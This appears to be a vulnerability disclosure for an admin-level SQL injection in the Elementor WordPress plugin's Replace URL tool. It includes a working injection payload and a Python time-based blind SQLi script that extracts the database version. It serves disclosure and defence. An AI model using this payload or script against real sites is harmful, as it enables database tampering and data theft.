 # Admin + Sqli in Replace URL Module

**Affected Product**

Elementor Website Builder Wordpress plugin

**Version:** 3.10.0

**Severity**: Medium

**CVSS v3 Score:** 6.6:[AV:N/AC:L/PR:H/UI:N/S:U/C:N/I:H/A:L/E:F/RL:W/RC:C/CR:H/IR:H/AR:H/MAV:N/MAC:L/MPR:H/MUI:N/MS:U/MC:N/MI:H/MA:L](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:H/UI:N/S:U/C:N/I:H/A:L/E:F/RL:W/RC:C/CR:H/IR:H/AR:H/MAV:N/MAC:L/MPR:H/MUI:N/MS:U/MC:N/MI:H/MA:L&version=3.1)

**Description**

Replace URL in Tools module is vulnerable to SQL Injection. 

**Steps to Reproduce**

1. Install the Elementor Free plugin.
2. Login with the admin role and activate the plugin.
3. Navigate to the tools section in the plugin.

![Untitled](Admin%20+%20Sqli%20in%20Replace%20URL%20Module%20cc5a70dd1fb94c38b93dd0e604ddb343/Untitled.png)

1. Before the injection, meta_key of the meta_id 99999 is key3

![Untitled](Admin%20+%20Sqli%20in%20Replace%20URL%20Module%20cc5a70dd1fb94c38b93dd0e604ddb343/Untitled%201.png)

1. Navigate to “Replace URL” section and insert the SQLi payload in the “new-uri” field.

Payload: [`http://localhost:8000/?test'),meta_key='key4'where+meta_id=99999;#`](http://localhost:8000/?test%27),meta_key=%27key4%27where+meta_id=99999;#)

Above payload will update the meta_key to key4 of meta_id=999999

![Untitled](Admin%20+%20Sqli%20in%20Replace%20URL%20Module%20cc5a70dd1fb94c38b93dd0e604ddb343/Untitled%202.png)

1. Click on the Replace URL and Observe the popup “One Row Updated”. we can confirm the same in the database as well.

![Untitled](Admin%20+%20Sqli%20in%20Replace%20URL%20Module%20cc5a70dd1fb94c38b93dd0e604ddb343/Untitled%203.png)

**Vulnerable Code Snippets:**

1. URL is directly being used in the query statement after validating it with “filter_var( $from, FILTER_VALIDATE_URL )” which can be bypassed.
    
    ![Untitled](Admin%20+%20Sqli%20in%20Replace%20URL%20Module%20cc5a70dd1fb94c38b93dd0e604ddb343/Untitled%204.png)
    
    wp-content/plugins/elementor/includes/utils.php#L172-184

** Exploit**

```python
import requests as r 
import string
from requests import Timeout
import urllib.parse
import time
import re

url = "http://localhost:8000/payatu/wordpress/wp-admin/admin-ajax.php?_fs_blog_admin=true"
#proxies = {"http":"http://localhost:8080"}
possibilites = string.digits+'-.'+string.ascii_lowercase
data = "action=elementor_replace_url&from=http%3A%2F%2Flocalhost%3A8000&to=http%3A%2F%2Flocalhost%3A8000%2F%3Ftest')%2Cmeta_key%3D'key7'where%2Bmeta_id%3D(99999)and((IF((SELECT%2Bversion()like'{}%25')%2Csleep(2)%2C0)))%3B%23&_nonce=6253de9ef8"
version = ""
headers = {"Cookie":"wordpress_logged_in_e695f32e6b8dbfe4dad4de7d8125134d=<redacted>;","Content-Type":"application/x-www-form-urlencoded; charset=UTF-8"}

while 1:
    for char in possibilites:
        try:
            body = data.format(version+char)
            res = r.post(url,data=body,timeout=2,headers=headers)

        except Timeout:
            version+=char
            print(version)
            break
```

![Untitled](Admin%20+%20Sqli%20in%20Replace%20URL%20Module%20cc5a70dd1fb94c38b93dd0e604ddb343/sqlDatabase.png)
